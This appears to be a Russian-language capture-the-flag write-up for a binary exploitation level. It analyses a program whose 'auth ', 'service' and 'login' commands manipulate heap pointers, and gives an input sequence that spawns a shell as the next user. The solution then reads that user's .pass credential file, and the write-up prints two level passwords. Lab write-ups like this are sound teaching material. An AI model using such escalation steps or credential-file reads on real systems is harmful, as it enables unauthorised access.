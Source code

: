 ## HowTo
```
su level8
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
```

### Инструменты:
- Ida Pro + hex rays
- peda (gdb + patterns)
- ltrace

### Анализ и ход решения
1. Используем Ida Pro для создания Си-псевдокода, - в бинарнике исполняется много циклов, на асм понять их довольно сложно (см. псевдокод в файле в репозитории).

2. Обнаруживаем, что мы имеем несколько команд, запускающих исполнение разных циклов.
3. Внутри циклов изменяются значения указателей, хранящихся в переменных.
```
"auth " - whitespace is IMPORTANT!
"service"
"reset"
"login"
```

3. Команда `login` запускает исполнение цикла, который проверяет смещение указателя `auth` и, если указанная область не пуста, запускает `system('/bin/sh')`
```
0x080486e7 <+387>: mov    eax,DWORD PTR [eax+0x20] (32d)
```

4. Далее экспериментируем с командами:
- `"auth "` - задает значение 1-й переменной и при повторном введение растит указатель на `16`
- `"service"` - задает значение 2-й переменной и при повторном введении растит указатель на `16`
- `"reset"` - работает с переменной, вывод которой мы не видим в печати и которая не нашу задачу влияние не имеет
- `"login"` - тригерит запуск проверки адресов и исполнение

5. Нам нужно добиться того, чтобы память со смещением `32 (0x20)` от `auth` (1-я переменная) была не пуста.
Введя:
```
"auth "
"service"
```
Видим, что расстояние между указателями - `16`.
Растим переменную service на `16`, до `32`.

**NB:** Мы можем вырастить значения `auth` и `service` до произвольных размеров, главное, соблюсти расстояние между ними в `32`


### Решение
```
> ./level8
"auth " - whitespace is IMPORTANT!
"service"
"service"
"login"
$ whoami
level9
cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```